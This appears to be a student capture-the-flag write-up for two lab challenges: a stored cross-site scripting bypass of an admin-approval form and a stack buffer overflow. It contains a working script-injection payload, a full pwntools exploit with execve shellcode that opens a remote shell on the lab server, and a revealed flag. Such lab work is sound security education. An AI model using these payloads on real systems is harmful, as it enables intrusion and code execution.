

# CTF Week #10
## Challenge #1
Our objective is to bypass the administrator's aproval of our justification and get the flag.

- Once we send our jutification for wanting the flag two different buttons show up:
    -  "Mark request as read" with id "markAsRead"
    -  "Give the flag" with id "giveflag"

|                                    |
| :----------------------------------------------------------:|
|           *Figure 1: Id of the "Give the flag" button.*     |


- Knowing the buttons' ids we might be able to activate them by inputting java script in the form and exploring the unintended scrip execution vulnerability.

Inputting the following line of code in the justification form we can then obtain the flag: flag{aee2a3da1e8e9588d6f60b6c02bdf0e5}.

```html
<script>document.getElementById('giveflag').click()</script>
```
|                                    |
| :----------------------------------------------------------:|
|           *Figure 2: Flag given after waiting for a little bit.*     |

## Challenge #2

After executing `checksec` to the program given we can conclude that it's vulnerable to Buffer Overflow attacks since there's no protections in place to not be able to do so (e.g. no existance of canaries).

|                                    |
| :----------------------------------------------------------:|
|           *Figure 3: `checksec` command output.*     |


Our objective is to buffer overflow the buffer present in the buffer pointer given. Beforehand we know that the buffer size is 100 characters.

|                                    |
| :----------------------------------------------------------:|
|           *Figure 4: The source code given.*     |

By using the previously used script we developed an exploit capable of running a `shell` that'll be used to print the contents of the `flag.txt` with the `cat` command. The 32 bit shellcode present in it was also used in a previous Seed-Lab, it's inserted at the begining of the buffer and the return address it's pointed to the begining of the buffer, this way after the function returns it'll execute our shellcode instead. The return address position in the payload was obtained by the use of `dbg` and an...

```python
#!/usr/bin/python3

from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4001)

r.recvuntil(b"buffer is ")
buffer_line = r.recvline().strip()[:-1]
encoded_address = p32(int(buffer_line,16))

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

size = 108
payload = bytearray(0x41 for i in range(size))
payload[0:len(shellcode)] = shellcode
payload[size:] = encoded_address

r.sendline(payload)
r.interactive()
```

|                                    |
| :----------------------------------------------------------:|
|           *Figure 5: Obtaining the flag using the exploit above mencioned and the `cat` command*     |